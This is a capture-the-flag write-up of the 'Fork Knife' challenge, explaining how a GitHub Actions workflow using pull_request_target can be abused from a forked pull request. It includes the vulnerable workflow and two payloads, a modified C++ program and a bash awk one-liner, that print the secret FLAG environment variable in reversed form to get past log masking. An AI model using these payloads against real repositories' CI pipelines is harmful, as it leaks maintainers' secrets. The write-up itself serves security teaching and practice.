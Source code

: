 # Fork Knife (500 points) - Github

You must solve the first challenge to get the answer of this 2nd challeng.

![Alt text](./_images/image.png)

This problem needs to fork the repository and make a pull request of the changes to the original repository to uncover the secrets environment variables. There are a two possible gadgets here, the  bash scripts and `submission.c`. You can refer to this site how to exploit the yaml workflows: [Hack this reporistory - github](https://securitylab.github.com/research/ekoparty-ctf/)

Looking at the workflow yaml file we can see the following:
```yaml
on:
  pull_request_target

jobs:
  build:
    name: Grade the test
    runs-on: ubuntu-latest
    steps:

    - uses: actions/checkout@v2
      with:
        ref: ${{ github.event.pull_request.head.sha }}
        
    - name: Run build & tests
      id: build_and_test
      env: 
        EXPECTED_OUTPUT: ${{ secrets.FLAG }}
      run: |
        /bin/bash ./build.sh > output.txt && /bin/bash ./test.sh

    - uses: actions/github-script@v3
      with:
        github-token: ${{secrets.GITHUB_TOKEN}}
        script: |
          github.issues.createComment({
            issue_number: context.issue.number,
            owner: context.repo.owner,
            repo: context.repo.repo,
            body: "👋 Your code looks great, good job! You've passed the exam!"
          })
```
The secrets.FLAG is the flag, but we can't access it because we don't have permissions to write, so we need to find a way to read the secrets variable with EXPECTED_OUTPUT variable.

Now we can use our gadgets, first is the submission.c:

```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }
    
    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Convert to lowercase
    std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```
We can see that the submission.c will reverse and lowercasing the output string of environment variable HOME and write it to output.txt.

Looking at build.sh:
```bash
#!/bin/bash

# Compile the C++ program
g++ -o submission submission.c

# Check if the compilation was successful
if [ $? -eq 0 ]; then
    echo "Build successful. The program has been compiled as 'submission'."
else
    echo "Build failed. Please check the compilation errors."
fi
```
The build.sh will compile the submission.c with g++ compiler since the code is not really written in C but in C++.

test.sh:
```bash
#!/bin/bash

# Define the expected output from the environment variable
EXPECTED_OUTPUT="$EXPECTED_OUTPUT"

# Read the content of the output.txt file
if [ -f "output.txt" ]; then
    ACTUAL_OUTPUT=$(cat "output.txt")
else
    echo "Error: 'output.txt' file not found."
    exit 1
fi

# Compare the expected output with the actual output
if [ "$EXPECTED_OUTPUT" = "$ACTUAL_OUTPUT" ]; then
    echo "Validation passed: The content of 'output.txt' matches the expected output."
    exit 0
else
    echo "Validation failed: The content of 'output.txt' does not match the expected output."
    exit 1
fi
```
Now here with test.sh we can see that the EXPECTED_OUTPUT is the secrets.FLAG and the ACTUAL_OUTPUT is the output.txt. So we can use the submission.c to reverse the secrets.FLAG and write it to output.txt, and also we can use this as second gadget since the EXPECTED_OUTPUT is the secrets.FLAG and we only need to reverse it with `awk` same as `comment` challenge.

Writing the payload to the submission.c:
```c
#include <iostream>
#include <fstream>
#include <string>
#include <cstdlib>
#include <algorithm>

int main() {
    // Retrieve the content of the "HOME" environment variable
    char* envVar = std::getenv("HOME");
    
    if (envVar == nullptr) {
        std::cerr << "Environment variable not found or is empty." << std::endl;
        return 1;
    }

    // leak the secret.FLAG
    envVar = std::getenv("EXPECTED_OUTPUT");

    // Convert the environment variable content to a C++ string
    std::string envVarContent = envVar;

    // Reverse the content
    std::reverse(envVarContent.begin(), envVarContent.end());

    // Comment out this line to prevent the flag being lowercase and causes wrong flag.
    // std::transform(envVarContent.begin(), envVarContent.end(), envVarContent.begin(), ::tolower);

    // Create a new variable to store the modified content
    std::string newVarContent = envVarContent;

    // Output the modified content to a file
    std::ofstream outputFile("output.txt");
    if (outputFile.is_open()) {
        outputFile << newVarContent;
        outputFile.close();
        std::cout << "Content has been reversed, converted to lowercase, and written to 'output.txt'." << std::endl;
    } else {
        std::cerr << "Failed to open 'output.txt' for writing." << std::endl;
        return 1;
    }

    return 0;
}
```

2nd payload with test.sh (Cheating our final test instead of modifying submission.c XD):
```bash
echo "$EXPECTED_OUTPUT" | awk '{ for(i=length;i!=0;i--) printf "%s",substr($0,i,1); print "" }
```

Now we can make a pull request to the original repository and wait for the workflow to run.

![Alt text](./_images/image-1.png)

Looking at the actions tab to see the workflow running.
![Alt text](./_images/image-2.png)

and we got the flag.

**FLAG:** EKO{pr3v3nt_PWN_r3qu3stS}
